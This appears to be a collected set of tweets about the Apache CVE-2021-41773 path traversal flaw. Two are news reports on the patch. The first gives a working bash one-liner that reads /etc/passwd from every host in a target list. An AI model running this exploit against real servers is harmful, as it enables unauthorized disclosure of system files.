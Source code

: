 ✅ One Liner :

cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" &amp;&amp; echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
</blockquote>

<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>421</code></td>
<td>Favorites: <code>1037</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1445405839041437699 _at 2021-10-05, 15:09:41_**
<blockquote>
Apache has issued urgent security patches to address 2 new security vulnerabilities—including a zero-day path traversal and file disclosure flaw (CVE-2021-41773) in HTTP servers that it said is being actively exploited in the wild.

Details: https://t.co/B3wC46pZol

#infosec #
</blockquote>

* https://thehackernews.com/2021/10/apache-warns-of-zero-day-exploit-in.html

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>127</code></td>
<td>Favorites: <code>160</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1445401617407295495 _at 2021-10-05, 14:52:54_**
<blockquote>
NEW: Apache fixes actively exploited web server zero-day

-Tracked as CVE-2021-41773
-Issue resides in Apache's path normalization logic
-Several PoCs already released
-No details on the ongoing exploitation

https://t.co/JV9nKlgXLl https://t.co/JB0WLNvZf9
</blockquote>

* https://therecord.media/apache-fixes-actively-exploited-web-server-zero-day/
